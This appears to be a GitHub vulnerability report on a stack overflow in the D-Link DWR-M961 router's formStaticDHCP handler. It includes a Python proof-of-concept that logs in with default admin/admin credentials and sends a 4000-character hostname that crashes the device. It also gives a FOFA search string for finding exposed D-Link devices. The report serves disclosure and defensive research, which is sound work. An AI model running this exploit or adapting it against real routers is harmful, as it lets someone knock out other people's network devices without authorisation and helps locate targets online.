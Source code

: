 # D-link DWR-M961 has a formStaticDHCP stack overflow vulnerability

## Product Information

- Device: D-link DWR-M961
- Manufacturer's website information：https://www.dlink.com.cn/

![CleanShot 2025-04-08 at 21 52 47@2x](https://github.com/user-attachments/assets/c11c338a-69f4-4860-bbf3-bdd7050fc328)

## Vulnerability Description

Saved in the /boafrm/formStaticDHCP module of the boa server of DWR_M961_V1_1_36_upgrade
In the authorization interface, the determined parameters were concatenated without string length check, resulting in a stack overflow

![CleanShot 2025-04-08 at 21 54 03@2x](https://github.com/user-attachments/assets/a09d7efe-bb1c-413e-b485-d75b4e7b2029)

fofa:"D-Link"

![CleanShot 2025-04-08 at 21 56 25@2x](https://github.com/user-attachments/assets/d6a33d5d-29bd-43e7-be57-0b0d2d28a1a0)

## Payload

Saved in the /boafrm/formStaticDHCP module of the boa server of DWR_M961_V1_1_36_upgrade
In the authorization interface, the determined parameters were concatenated without string length check, resulting in a stack overflow

```attact.py```
```
import requests
import time
import sys
if __name__ == '__main__':


          

    if len(sys.argv) != 2:
        print("usage: python attack.py [url] [cmd]")
    url = sys.argv[1]


    data = {
        "Language":"en-us",
        "username":"admin",
        "password":"admin",
        "submit-url":"/login.htm"
    }
    res = requests.post(url + '/boafrm/formLoginSetup', data=data)
    cookies = res.cookies
    res = requests.get(url + '/tcpip_staticdhcp.htm')


  

    for cookie in cookies:
        print("Name:", cookie.name, "Value:", cookie.value)


    data = {

        "submit-url": "/tcpip_staticdhcp.htm",
        "addRsvIPFlag": "aaaa",
        "static_dhcp": "1111",
        "hostname": "x"*4000,
    }

    res = requests.post(url + '/boafrm/formStaticDHCP', data=data , cookies=cookies)
    cookies = res.cookies

  
    if res.status_code == 400:
        print("[+] Command execute ok!")
    else:
        print("[-] Command execute failed!")

```
![CleanShot 2025-04-08 at 21 59 56@2x](https://github.com/user-attachments/assets/ed504d3e-9930-4feb-8c48-50f551eb4281)

After executing attact.py, the device crashed directly. Due to the serious harm of the vulnerability, the actual test did not test Internet assets.
![CleanShot 2025-04-08 at 22 00 22@2x](https://github.com/user-attachments/assets/00177b04-a69d-4710-9451-1de32341b9c7)

![CleanShot 2025-04-08 at 22 00 49@2x](https://github.com/user-attachments/assets/42a745a5-06b6-4ab5-a154-9df74ee97111)

